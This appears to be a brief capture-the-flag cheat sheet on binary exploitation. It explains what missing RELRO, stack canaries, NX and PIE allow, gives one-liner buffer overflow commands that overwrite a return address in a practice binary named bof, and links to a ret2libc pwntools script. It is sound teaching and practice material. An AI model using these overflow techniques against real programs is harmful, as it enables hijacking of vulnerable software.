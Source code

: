 > No RELRO: Possible to overwrite global variable
> No canary: Possible to smash the stack
> NX disabled: Possible to write and execute from the stack
> No PIE: Virtual address it should use and keeps its memory layout quite static

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)

